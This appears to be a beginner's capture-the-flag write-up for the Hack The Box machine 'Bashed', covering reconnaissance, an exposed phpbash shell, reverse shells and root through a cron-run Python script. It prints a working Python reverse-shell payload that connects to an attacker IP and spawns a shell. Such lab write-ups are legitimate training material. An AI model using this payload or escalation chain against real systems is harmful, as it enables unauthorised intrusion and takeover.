 # Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349) (1) (1) (1).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333) (1) (1) (1).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354) (1) (1) (1) (1) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356) (1) (1) (1).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329) (1) (1).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357) (1) (1) (1) (1) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337) (1) (1) (1) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (358) (1) (1) (1) (1).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343) (1) (1).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1) (1).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355) (1) (1).png>)

When I ran linpeas (not shown in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1) (1).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352) (1) (1) (1) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1) (1) (1).png>)
